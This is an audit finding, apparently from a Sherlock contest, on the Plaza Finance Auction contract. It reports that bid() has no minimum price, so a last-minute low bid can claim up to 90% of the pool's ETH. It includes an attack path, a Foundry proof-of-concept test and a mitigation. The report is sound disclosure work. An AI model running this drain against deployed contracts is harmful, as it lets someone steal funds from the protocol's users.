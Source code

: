 Magnificent Butter Jellyfish

High

# Almost up to the sale limit of the pool's (ETHs) can be drained due to lack of start price the  in `Auction::bid()` function by making a likely undersold Auction a Successful Auction

### Summary

Lack of minimum price checking  (minimum ETH in terms of usdc) in `Auction:bid()` function will cause a significant loss of funds as attackers can turn a under sold auction to a successful auction by draining almost all funds( up to sale limit that is >= 90%)

### Root Cause

https://github.com/sherlock-audit/2024-12-plaza-finance/blob/14a962c52a8f4731bbe4655a2f6d0d85e144c7c2/plaza-evm/src/Auction.sol#L125C3-L171C4

### Internal Pre-conditions

1) When a auction is going to be under sold.  or huge amount of usdc needed to cover the bond holders but the auction can not attract many bidders to get the required the usdc amount.

### External Pre-conditions

_No response_

### Attack Path

Suppose 90% of the vault balance(ETH) is  1000 ETH.  max bid= 1,000. And 25000 usdc need to be raised for the bond holders. Slot size = 25
1. 24,975 usdc have been raised through many bids covering 10 ETH. and only 25 usdc needed .
2.  At the last moment attacker can place  a bid of 25 usdc against 990 ETH.
3. Attack call the `Auction:endAuction()` function to end the auction after end time period.
4.  The attacker then call `Auction:claimBid()` function to claim his ETHs.
### Impact

Almost complete loss of funds if there is no potential bidders to rescue. If there's legitimate bidders but can not cover the whole   usdc needed, then these low bidders would drain the protocol.

### PoC
Add this function in Auction.t.sol file 

```solidity
function testAuctionDrain() public {
        for (uint256 i = 1; i <= 100; i++) {
            address newBidder = address(uint160(i + 1));
            vm.startPrank(newBidder);
            usdc.mint(newBidder, 100 ether);
            usdc.approve(address(auction), 100 ether);
            auction.bid(1 ether, 1000000000);
            vm.stopPrank();
        }

        address attacker = address(0x1111);

        // getting total reserve token in the pool.
        uint256 PoolBalance = IERC20(
            address(Auction(auction).sellReserveToken())
        ).balanceOf(address(Auction(auction).pool()));

        uint256 saleLimit = (PoolBalance * 90) / 100;

        //after 9 days attacker plaing the bid
        vm.warp(block.timestamp + 9 days);

        vm.startPrank(attacker);
        //auction coupon amount
        uint256 auctionCouponAmount = Auction(auction).currentCouponAmount();
        //total coupon amount needed for the auction.
        uint256 totalBuyCouponAmount = Auction(auction).totalBuyCouponAmount();

        uint256 usdcNeeded = totalBuyCouponAmount - auctionCouponAmount;
        usdc.mint(attacker, usdcNeeded);

        usdc.approve(address(auction), usdcNeeded);

        uint256 index = auction.bid(saleLimit, usdcNeeded);

        vm.warp(block.timestamp + 12 days);
        Auction(auction).endAuction();

        Auction(auction).claimBid(index);
        vm.stopPrank();
    }

```

### Mitigation

As the principle of Auction is - the highest bidder would win. But There must have some minimum bidding price (base price like at least 500 or 1000 usdc for 1 eth or chainlink pirce feed can be helpful to determine base price) which would have prevented such a scenario.